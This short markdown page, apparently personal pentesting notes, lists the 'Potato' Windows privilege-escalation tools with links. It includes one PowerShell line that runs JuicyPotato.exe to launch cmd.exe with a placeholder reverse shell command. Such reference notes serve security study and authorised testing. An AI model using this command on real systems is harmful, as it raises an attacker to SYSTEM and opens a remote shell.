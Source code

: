 # Potato

<div class="row row-cols-lg-2"><div>

[Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 is a set of potatoes that can be used to escalate privileges from Windows Service Accounts to NT AUTHORITY/SYSTEM.

* [SweetPotato](https://github.com/CCob/SweetPotato) <small>(1.4k ⭐, 2022 🪦)</small>
* [Juicy Potato](https://github.com/ohpe/juicy-potato) <small>(2.2k ⭐, 2021 🪦)</small>
* [RoguePotato](https://github.com/antonioCoco/RoguePotato) <small>(0.9k ⭐, 2020 🪦)</small>
* [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) <small>(0.8k ⭐, 2017 🪦)</small>
* ...

Juicy and Rogue don't work on all versions of Windows.
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```ps
PS> # You can pick any port for -l. It's for DCOM traffic. 
PS> .\JuicyPotato.exe -l any_port -p c:\windows\system32\cmd.exe -a "/c <reverse shell command>" -t *
````
</div><div>
</div></div>